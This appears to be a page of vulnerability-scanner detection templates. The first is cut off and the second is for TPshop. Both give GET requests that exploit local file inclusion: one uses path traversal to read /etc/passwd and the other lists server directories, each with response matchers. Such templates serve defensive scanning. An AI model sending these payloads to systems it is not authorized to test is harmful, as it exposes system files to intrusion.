 ## Requests

- Method - GET

### URL

- {{BaseURL}}/classes/phpmailer/class.cs_phpmailer.php?classes_dir=../../../../../../../../../../../etc/passwd%00

### Matchers

**Type - regex**

- regex
  1. root:.\*:0:0:

**Type - status**

- status
  1. 200

---

# TPshop - Local File Inclusion

## Description

- TPshop is vulnerable to local file inclusion.
- severity - high
- tags - tpshop,lfi

## Requests

- Method - GET

### URL

- {{BaseURL}}/index.php/Home/uploadify/fileList?type=.+&path=../../../

### Matchers

**Type - word**

- words
  1. "state":"SUCCESS"

**Type - status**

- status
  1. 200

---
